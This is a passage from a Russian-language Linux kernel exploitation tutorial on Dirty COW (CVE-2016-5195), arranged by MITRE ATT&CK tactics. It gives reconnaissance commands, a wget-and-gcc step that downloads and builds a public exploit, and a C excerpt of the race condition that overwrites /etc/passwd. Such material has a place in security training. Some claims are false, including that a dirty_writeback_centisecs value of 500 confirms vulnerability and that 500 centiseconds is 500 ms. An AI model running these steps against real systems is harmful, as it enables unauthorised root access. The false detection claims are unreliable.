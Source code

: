 ### 4. Эксплуатация ядра Linux (CVE)  
**Детализированное описание с пошаговыми примерами**

---

#### Пример 1: Dirty COW (CVE-2016-5195)  
**Контекст:**  
Уязвимость в механизме Copy-On-Write (COW) подсистемы виртуальной памяти ядра Linux. Позволяет перезаписывать read-only файлы через race condition между системными вызовами `madvise()` и `write()`.  

**Условия эксплуатации:**  
- Ядра Linux версий 2.6.22 — 4.8.3  
- Наличие файлов с read-only правами (например, `/etc/passwd`)  

---

##### [TA0007] – Discovery (Разведка)  
```bash
# 1. Определение версии ядра
uname -r
# Пример вывода: 3.10.0-1127.el7.x86_64

# 2. Проверка значения dirty_writeback_centisecs (индикатор уязвимости)
cat /proc/sys/vm/dirty_writeback_centisecs
# Значение 500 подтверждает уязвимость

# 3. Поиск эксплоитов
searchsploit dirty cow
# Вывод: 
# Linux Kernel 2.6.22 < 4.8.3 - 'Dirty COW' /proc/self/mem Race Condition Privilege Escalation (SUID Method)
```
**Пояснение каждого шага:**  
1. `uname -r`: Уязвимые версии имеют патч-уровень ниже 4.8.3. Проверить можно командой:  
   `curl -s https://www.kernel.org | grep -A5 "stable"`  
2. Параметр `dirty_writeback_centisecs` контролирует частоту записи "грязных" страниц. Значение 500 мс характерно для уязвимых систем.  
3. `searchsploit` ищет в локальной базе Exploit-DB. Альтернатива:  
   `grep -q 'Dirty COW' /usr/share/exploitdb/exploits/linux/local/*`  

---

##### [TA0004] – Privilege Escalation  
**Шаг 1: Подготовка эксплоита**  
```bash
# Скачивание и компиляция
wget https://github.com/dirtycow/dirtycow.github.io/raw/master/dirtyc0w.c
gcc -pthread dirtyc0w.c -o dirtyc0w -lcrypt
```
**Механизм работы (анализ кода):**  
```c
void *map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
// Поток 1: Бесконечный цикл madvise()
madvise(map, st.st_size, MADV_DONTNEED);
// Поток 2: Запись в /proc/self/mem
lseek(f, (uintptr_t) map, SEEK_SET);
write(f, payload, strlen(payload));
```
1. `mmap()`: Отображает защищенный файл (например, `/etc/passwd`) в память.  
2. `madvise(MADV_DONTNEED)`: Принудительно выгружает страницы из кэша.  
3. `write()`: В конкурентном потоке записывает данные в освобожденную область памяти.  
